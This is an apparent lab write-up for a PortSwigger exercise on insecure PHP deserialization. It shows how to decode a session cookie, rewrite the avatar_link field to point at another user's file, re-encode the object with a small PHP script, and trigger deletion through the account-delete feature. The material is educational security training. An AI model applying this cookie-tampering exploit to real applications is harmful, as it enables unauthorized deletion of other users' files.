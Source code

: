 # Using application functionality to exploit insecure deserialization

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization), you'll learn: Using application functionality to exploit insecure deserialization! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

You also have access to a backup account: `gregg:rosebud`

## Exploitation

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-3/images/Pasted%20image%2020230110063411.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-3/images/Pasted%20image%2020230110063420.png)

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-3/images/Pasted%20image%2020230110063443.png)

When we successfully logged in, it'll set a new session cookie.

**URL decoded:**
```
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ5bnVwM2ZhOGE2djJ6MmVrYmtqbnIzMDdmdDQxdTlmaCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30=
```

In here, we see the last character of this session cookie is `=`, which is a base64 padding character.

**Let's base64 decode that:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# echo 'Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ5bnVwM2ZhOGE2djJ6MmVrYmtqbnIzMDdmdDQxdTlmaCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30=' | base64 -d
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"ynup3fa8a6v2z2ekbkjnr307ft41u9fh";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

It's a PHP serialized object data!

In previous labs, we found that we can manipulate the PHP serialized object.

**Let's take a closer look to the `avatar_link` attribute:**
```php
s:11:"avatar_link";s:19:"users/wiener/avatar"
```

The `avatar_link` attribute is 11 characters long, and it's value is `users/wiener/avatar`.

But before we modify that value, let's poke around the web application.

**In the "My Account" page, we can delete our account:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-3/images/Pasted%20image%2020230110064055.png)

Let's try to delete it!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-3/images/Pasted%20image%2020230110064223.png)

When we clicked the "Delete account" button, it'll send a POST request to `/my-account/delete`.

Hmm... It also seems like our avatar has been deleted.

**Armed with above information, we can modify the `avatar_link` attribute value to `/home/carlos/morale.txt`. By doing that, we might able to delete that file!**

Let's login to our backup account:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-3/images/Pasted%20image%2020230110064500.png)

**New PHP serialized object:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# echo 'Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjU6ImdyZWdnIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6ImFlMXB1c2Frd3Vtc2FscjRtZ3N1emprcHAycTJjeDBoIjtzOjExOiJhdmF0YXJfbGluayI7czoxODoidXNlcnMvZ3JlZ2cvYXZhdGFyIjt9' | base64 -d
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"ae1pusakwumsalr4mgsuzjkpp2q2cx0h";s:11:"avatar_link";s:18:"users/gregg/avatar";}
```

```php
<?php
    $serializedObject = 'O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"ae1pusakwumsalr4mgsuzjkpp2q2cx0h";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}';

    $deserializedObject = unserialize($serializedObject);
    echo "[+] Deserialized: \n";
    var_dump($deserializedObject);

    echo "[+] Base64 encoded: \n" . base64_encode($serializedObject);
?>
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# php serialization.php
[+] Deserialized: 
object(__PHP_Incomplete_Class)#1 (4) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(4) "User"
  ["username"]=>
  string(5) "gregg"
  ["access_token"]=>
  string(32) "ae1pusakwumsalr4mgsuzjkpp2q2cx0h"
  ["avatar_link"]=>
  string(23) "/home/carlos/morale.txt"
}
[+] Base64 encoded: 
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjU6ImdyZWdnIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6ImFlMXB1c2Frd3Vtc2FscjRtZ3N1emprcHAycTJjeDBoIjtzOjExOiJhdmF0YXJfbGluayI7czoyMzoiL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=
```

**Then, copy that base64 encoded string and paste it to the session cookie:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-3/images/Pasted%20image%2020230110064806.png)

**Refresh the page, and click "Delete account":**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-3/images/Pasted%20image%2020230110064835.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-3/images/Pasted%20image%2020230110064847.png)

Nice!

# What we've learned:

1. Using application functionality to exploit insecure deserialization